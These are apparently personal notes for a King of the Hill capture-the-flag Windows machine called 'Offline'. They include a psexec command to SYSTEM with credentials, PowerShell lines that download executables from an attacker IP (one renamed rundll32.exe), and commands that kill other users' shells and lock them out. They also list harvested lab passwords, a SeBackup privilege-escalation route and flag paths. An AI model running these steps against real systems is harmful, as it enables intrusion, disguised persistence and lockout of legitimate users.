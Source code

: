 # Offline KOTH machine

can go straight to system with `psexec.py kingofthe.domain/svc_robotarmy:robots@10.10.34.8`

## tools

as this is a windows box, downloading files can be done over powershell:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/kmw.exe','kmw.exe')"
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/client.exe','c:\users\administrator\music\rundll32.exe')"
```

and king.txt, under Administrator/king-server/, can be made immutable with the `attrib +r king.txt` command. note the `icacls` command could also be used to mess with permissions. can use `takeown /f .\king.txt` as a quick recover if someone else has taken over the file

when dealing with dicks do the following:

```
net user svc_robotarmy sdfsjkfskkjiouuiyeruiysdf
[establish a russh shell]
taskkill /f /pid powershell.exe
taskkill /f /pid cmd.exe
```

basically will lock down that method of access (but you can still get in via rushh obvs).

## other ways

path to foothold:

- the webserver on :80 supports webdav. with a tool like `cadaver` it can be browsed and uploaded to. in it is the creds for the scara user: `scara:LeagueIsMyLove`
- once on the machine winpeas reveals several more user creds:

  - `scarra:LeagueIsMyLove`
  - `toast:IsItHotInHere,OrIsItJustMe`
  - `mykull:NightmareNightmareNightmareNightmare`
  - `fed:OfflineTV2020`

Other users include poki, lily, yvonne (possible password in smb, though doesnt seem to work), SVC_ROBOTARMY

SVC_ROBOTARMY <- i think this is an admin account. maybe should do some kerboroasting or something

path to admin:

- `mykull` has SeBackup. by importing https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1, the permissions to the administrator home folder (or any folder) can be changed. editing king under king-server doesnt seem to work though - might require no newline

## Flags

- c:\Users\Administrator\flag.txt
- c:\Users\fed\flag.txt
- c:\Users\lily\flag.txt
- c:\Users\mykull\flag.txt
- c:\Users\poki\flag.txt
- c:\Users\scarra\flag.txt
- c:\Users\toast\flag.txt
- c:\Users\yvonne\flag.txt

